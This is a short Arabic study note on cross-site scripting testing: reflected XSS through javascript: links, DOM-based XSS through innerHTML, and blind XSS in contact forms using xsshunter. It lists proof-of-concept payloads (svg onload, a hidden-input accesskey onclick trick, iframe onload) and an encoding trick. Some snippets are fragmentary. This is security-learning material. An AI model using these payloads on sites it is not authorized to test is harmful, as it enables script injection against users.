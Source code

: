 اول فكره فكره اللينك بنبدأ نعمل  ال test  بتاعنا نجرب نضيف اسم وبعدين نجرب ' <> "" وهكذا
بعدين هنجرب اللينك نضيف قبله حاجه لو نفعت نبدأ نجرب كورد ال js زي كدخ
javascript:alert(0)//http://google.com
2. Dom based xss 
	بندور علي innerhtml
3. Blind xss
	بتبقي غالبا في ال contact 
	بنفتح موقع xsshunter ونبدأ نجرب payloads  من عليه

ممكن تجيب ال url code ثم ل uni code 
% = \u00

```
<svg onload = console.log(0)>
'''

''' 
<input type hidden></input> 
<link href="" accesskey="x" onclick="alert(0)">

alt+shift + x دي في حاله المخفي 

```
```
<iframe src="link"  onload=""
```

```
templet string
document.write(Hello ${variable});
```
